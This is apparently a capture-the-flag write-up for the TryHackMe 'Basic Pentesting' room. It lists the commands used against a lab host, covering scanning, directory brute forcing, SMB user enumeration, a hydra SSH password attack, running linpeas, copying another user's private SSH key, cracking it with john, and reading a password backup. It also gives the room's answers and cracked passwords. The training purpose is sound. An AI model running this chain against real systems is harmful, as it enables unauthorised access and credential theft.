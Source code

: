 # THM - Basic Pentesting

<br>

## Task 1

### Task 1.2

```shell
mkdir scans
nmap -A -sC 10.10.65.135 -oN scans/nmap_1.txt
```

http://10.10.65.135/

(View Page Source:)
```html
<!-- Check our dev note section if you need to know what to work on. -->
```

### Task 1.3

```shell
gobuster dir -w ../../Tools/KaliWordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.65.135/ | tee scans/gobuster_1.txt
```

> development

http://10.10.65.135/development/

http://10.10.65.135/development/dev.txt

http://10.10.65.135/development/j.txt

### Task 1.5

```shell
enum4linux -a 10.10.65.135 | tee scans/enum4linux_1.txt

grep -e 'User\\' < scans/enum4linux_1.txt
```

> jan

### Task 1.6

```shell
hydra -l jan -P ../../Tools/KaliWordlists/rockyou.txt ssh://10.10.65.135
```

> armando

### Task 1.7

> SSH

### Task 1.8

(Tarminal 1:)
```shell
ssh jan@10.10.65.135
	yes
	armando
	
	pwd
	ls -la
```

(Tarminal 2:)
```shell
scp ../../Tools/PEASS-ng/linpeas.sh jan@10.10.65.135:/tmp
	armando
```

(Tarminal 1/ssh:)
```shell
	cd /tmp
	./linpeas.sh | tee linpeas_1.txt
```

(Tarminal 2:)
```shell
scp jan@10.10.65.135:/tmp/linpeas_1.txt ./scans/
	armando

cat scans/linpeas_1.txt
```

(Tarminal 1/ssh:)
```shell
	ls -la /home/kay/.ssh/
```

(Tarminal 2:)
```shell
scp jan@10.10.65.135:/home/kay/.ssh/id_rsa ./

ssh2john id_rsa > id_rsa_hash.txt

john --wordlist=../../Tools/KaliWordlists/rockyou.txt id_rsa_hash.txt

sudo ssh -i id_rsa kay@10.10.65.135
	beeswax
	
	ls -la
```

### Task 1.9

> kay

### Task 1.11

(Tarminal 2:)
```shell
	cat pass.bak
```

> heresareallystrongpasswordthatfollowsthepasswordpolicy$$

<br>

